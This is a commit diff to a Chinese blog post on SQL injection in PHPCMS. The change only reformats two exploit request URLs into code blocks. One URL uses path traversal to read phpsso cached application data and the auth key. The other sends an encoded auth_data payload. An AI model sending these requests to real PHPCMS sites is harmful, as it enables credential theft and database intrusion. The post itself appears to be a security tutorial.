

Before and after one commit to HouKC/houkc.github.io, a Jekyll site: the page built from _posts/2020-11-29-SQLInjection6.md, in a window 1280 px wide. Shown: the part 2891-4805 px from the top of the page at 76% size, without its empty margins (202-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded.

````diff
--- a/_posts/2020-11-29-SQLInjection6.md
+++ b/_posts/2020-11-29-SQLInjection6.md
@@ -136,11 +136,15 @@ http://xxx/com/x/detail.php?id=1234
 
 #### 1. 用exp爆出注入点
 
-`api.php?op=get_menu&act=ajax_getlist&callback=aaaaa&parentid=0&key=authkey&cachefile=..\..\..\phpsso_server\caches\caches_admin\caches_data\applist&path=admin`
+```
+api.php?op=get_menu&act=ajax_getlist&callback=aaaaa&parentid=0&key=authkey&cachefile=..\..\..\phpsso_server\caches\caches_admin\caches_data\applist&path=admin
+```
 
 或者以下
 
-`/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=662dCAZSAwgFUlUJBAxbVQJXVghTWVQHVFMEV1MRX11cBFMKBFMGHkUROlhBTVFuW1FJBAUVBwIXRlgeERUHQVlIUVJAA0lRXABSQEwNXAhZVl5V`
+```
+/phpsso_server/index.php?m=phpsso&c=index&a=getapplist&auth_data=v=1&appid=1&data=662dCAZSAwgFUlUJBAxbVQJXVghTWVQHVFMEV1MRX11cBFMKBFMGHkUROlhBTVFuW1FJBAUVBwIXRlgeERUHQVlIUVJAA0lRXABSQEwNXAhZVl5V
+```
 
 #### 2. 本地搭建php网站作为中间人
 
````
